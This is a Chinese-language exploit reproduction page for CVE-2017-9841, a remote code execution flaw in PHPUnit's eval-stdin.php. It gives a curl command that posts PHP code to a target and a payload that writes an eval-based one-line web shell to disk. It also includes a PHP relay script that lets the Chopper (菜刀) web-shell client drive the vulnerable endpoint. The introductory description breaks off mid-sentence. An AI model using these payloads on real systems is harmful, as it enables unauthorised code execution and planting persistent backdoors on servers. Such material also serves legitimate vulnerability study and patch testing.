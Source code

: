 （CVE-2017-9841）PHPunit 远程代码执行漏洞
=========================================

一、漏洞简介
------------

TYPO3是瑞士TYPO3协会维护的一套免费开源的内容管理系统。PHPUnit是其中的一个基于PHP的测试框架。PHPUnit4.8.28之前的版本和5.6.3之前的5.x版本中的Util/PHP/eval-stdin.php文件存在安全漏洞。远程攻击者可通过发送以'

二、漏洞影响
------------

PHPUnit 4.8.19-4.8.27PHPUnit 5.0.10-5.6.2

三、复现过程
------------

    $ curl --data "<?php echo(pi());" http://www.0-sec.org:8888/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

总体来说就是向**vendor/phpunit/src/Util/PHP/eval-stdin.php**发送POST请求执行php代码。

![[（CVE-2017-9841）PHPunit 远程代码执行漏洞/resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId24.png]]
![[（CVE-2017-9841）PHPunit 远程代码执行漏洞/resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId25.png]]



也可以直接写入一句话\*\*\?=file\_put\_contents(\"1.php\",

\'\<?=eval(\$\_REQUEST\[1\]);?\>\');\*\*
![[（CVE-2017-9841）PHPunit 远程代码执行漏洞/resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId26.png]]

![[（CVE-2017-9841）PHPunit 远程代码执行漏洞/resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId27.png]]


### poc

> 因为直接是RCE，如果当前目录可写，直接POST这样的body:

**菜刀中转脚本**

> 使用20160622版本的菜刀，可以直接连目标，可以执行命令，但是不可以上传修改文件。

    <?php
    $webshell="";
    $data = file_get_contents("php://input");
    $data=substr($data,1);
    $data=str_replace("%2F",'/',$data);
    $data=str_replace("%2B",'+',$data);
    $data=str_replace("%3D",'=',$data);
    $data= "<?php ". $data;
    echo $data;

    $opts = array (
    'http' => array (
    'method' => 'POST',
    'header'=> "Content-type: application/x-www-form-urlencoded\r\n" .
    "Content-Length: " . strlen($data) . "\r\n",
    'content' => $data)
    );

    $context = stream_context_create($opts);
    $html = @file_get_contents($webshell, false, $context);
    echo $html;
    ?>
